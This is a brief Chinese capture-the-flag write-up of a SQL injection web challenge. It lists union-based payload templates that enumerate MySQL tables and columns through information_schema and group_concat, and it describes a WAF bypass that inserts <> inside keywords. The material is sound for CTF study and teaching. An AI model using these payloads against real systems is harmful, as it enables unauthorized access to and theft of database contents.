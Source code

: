 ```yaml
---
title: SQL-出题人就告诉你这是个注入
date: 2017-12-31 00:00:00
categories:
- CTF/Web
tags: 百度杯九月 SQL注入
---
```


## 解题过程

### 观察

- url就一个参数id，页面提示信息`flag{在数据库中}`   
- 提交`%20and%201=1`被ichunqiu的waf拦截
- 提交`and%201=1`页面提示`inj code!`
- 观察页面源码可以看到当前所执行的SQL语句

### 测试

- 试验一堆字符，测试得到<>直接被过滤，便绕过waf和注入判定

### 注入

$字段个数 = `order by num`

$可见的字段=`union select 1,2,....,n`

$表名=`union select 1,group_concat(table_name),....n from information_schema.tables where table_schema=database()`

$列名=`union select 1,group_concat(column_name),....n from information_schema.columns where table_name=0x$表名的十六进制`

`union select 1,$列名,....n from $表名` 

### Payload
- 利用<>插入在关键字当中绕过过滤

## 知识小结

- mysql中group_concat函数的使用
- mysql5.0以上版本的information_schema库
- waf花式绕过
